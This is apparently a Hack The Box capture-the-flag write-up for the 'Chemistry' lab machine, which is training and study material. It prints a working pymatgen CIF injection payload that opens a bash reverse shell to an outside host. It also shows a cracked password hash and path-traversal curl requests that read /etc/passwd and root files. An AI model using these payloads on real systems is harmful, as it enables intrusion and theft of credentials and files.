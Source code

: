 # HTB - Chemistry

**IP Address:** `10.10.11.38`  
**OS:** Ubuntu  
**Difficulty:** Easy  
**Tags:** #Flask, #FileUpload, #PythonWerkzeug, #ReverseShell, #HashCracking, #LFI

---

## 1. Port Scanning

### 1.1 Nmap Scan

```bash
nmap -sV -sC 10.10.11.38
```

**Open Ports:**

- `22/tcp` → SSH (OpenSSH 8.2p1)
- `5000/tcp` → HTTP (Werkzeug 3.0.3 Python/3.9.5)

---

## 2. Web Enumeration

### 2.1 Basic Access

Visited `http://10.10.11.38:5000`.  
Found a Flask-based app: **"Chemistry CIF Analyzer"**

Options to `Register` and `Login`.  
Created user: `banana:banana`.

### 2.2 Upload Functionality

After login, users can upload `.cif` (Crystallographic Information Format) files.

Discovered an RCE vulnerability in `pymatgen` CIF parser:  
[GHSA-vgv8-5cpj-qj2f](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f)

Crafted malicious CIF file with payload:

```cif
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__(*[
().__class__.__mro__[1]]+["__sub" + "classes__"])() if d.__name__ == "BuiltinImporter"][0].load_module(
"os").system("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.105/9090 0>&1\'");0,0,0'
```

---

## 3. Reverse Shell Access

On attacker's machine:

```bash
nc -lnvp 9090
```

Uploaded the malicious `.cif` file and got a reverse shell from the server.  
Found user data in the instance's directory.

---

## 4. Password Extraction & Cracking

Located the database and extracted hash for user `rosa`:

```
63ed86ee9f624c7b14f1d4f43dc251a5
```

Used [CrackStation](https://crackstation.net/) to crack it.  
✅ Password: `molteniron`

SSH login with:

```bash
ssh rosa@10.10.11.38
```

🏁 **User flag obtained**

---

## 5. Privilege Escalation

### 5.1 Port Forwarding

Rosa's user had access to a local service at `127.0.0.1:9999`.  
Used SSH to port-forward:

```bash
ssh -L 9999:127.0.0.1:9999 rosa@10.10.11.38
```

### 5.2 Exploiting LFI

Accessed:

```bash
curl --path-as-is http://127.0.0.1:9999
```

Then tried:

```bash
curl --path-as-is http://127.0.0.1:9999/assets/../../../etc/passwd
```

✅ Confirmed Local File Inclusion

Accessed root flag:

```bash
curl --path-as-is http://127.0.0.1:9999/assets/../../../root/root.txt
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
